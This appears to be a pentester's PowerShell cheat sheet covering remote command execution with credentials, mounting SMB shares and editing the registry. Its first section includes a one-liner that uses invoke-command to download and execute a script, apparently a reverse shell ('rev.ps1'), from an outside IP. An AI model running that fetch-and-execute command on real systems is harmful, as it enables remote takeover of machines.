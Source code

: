 # powershell tricks

## run powershell commands as another user with ps
```powershell
$pass = ConvertTo-SecureString 'password123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('.\user', $pass)
hostname
invoke-command -Computer ComputerHostname -Credential $cred -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://192.168.1.69/rev.ps1') }
```
change ComputerHostname.
`-ConfigurationName ...` parameter might be required to run commands for special restricted user permissions

## mount smb share as drive "letter"
```powershell
New-PSDrive -Name "temp" -PSProvider "FileSystem" -Root "\\192.168.1.69\temp"
# with PSCredential
$pass = ConvertTo-SecureString 'password123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('.\use1', $pass)
New-PSDrive -Name "temp" -PSProvider "FileSystem" -Credential $cred -Root "\\192.168.1.69\temp"
```

## browse and edit registry

### set registry values
```powershell
Set-ItemProperty -Path "HKLM:\Software\ContosoCompany" -Name "NoOfEmployees" -Value 823
Get-ItemProperty -Path "HKLM:\Software\ContosoCompany"
```

### read registry values
can also change the powershell "directory" to the registry like "cd HKLM:\"
```powershell
cd HKLM:\SYSTEM\CurrentControlSet\Services\
```
